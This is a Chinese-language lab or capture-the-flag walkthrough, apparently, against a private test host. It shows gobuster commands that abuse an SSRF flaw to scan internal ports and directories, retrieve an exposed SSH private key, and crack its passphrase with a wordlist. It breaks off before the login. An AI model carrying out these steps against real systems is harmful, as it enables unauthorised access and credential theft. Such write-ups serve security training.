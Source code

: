 存在服务器端请求伪造(SSRF)漏洞，扫描下内部端口

```
gobuster fuzz -u http://10.0.0.105/advanced-search/path.php?path=127.0.0.1:FUZZ -w ../../Dict/SecLists-2022.1/Fuzzing/5-digits-00000-99999.txt |grep -v 'Length=0'
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

发现内部存在2222端口，访问下是什么

```
http://10.0.0.105/advanced-search/path.php?path=127.0.0.1:2222
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

是个web应该，做个目录扫描

```
gobuster fuzz -u http://10.0.0.105/advanced-search/path.php?path=127.0.0.1:2222/FUZZ -w ../../Dict/SecLists-2022.1/Discovery/Web-Content/directory-list-2.3-medium.txt |grep -v 'Length=181'
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

发现一个backup，访问看看

```
http://10.0.0.105/advanced-search/path.php?path=127.0.0.1:2222/backup
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

是个证书，把他保存为id_rsa，并尝试登录SSH

```
vi id_rsa  
chmod 600 id_rsa
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

```
ssh henry@10.0.0.105 -i id_rsa
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

id_rsa文件还有密码，拿来暴破一下

```
RSAcrack -k id_rsa -w /usr/share/wordlists/rockyou.txt
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

拿到密码，去登录碰一下账号
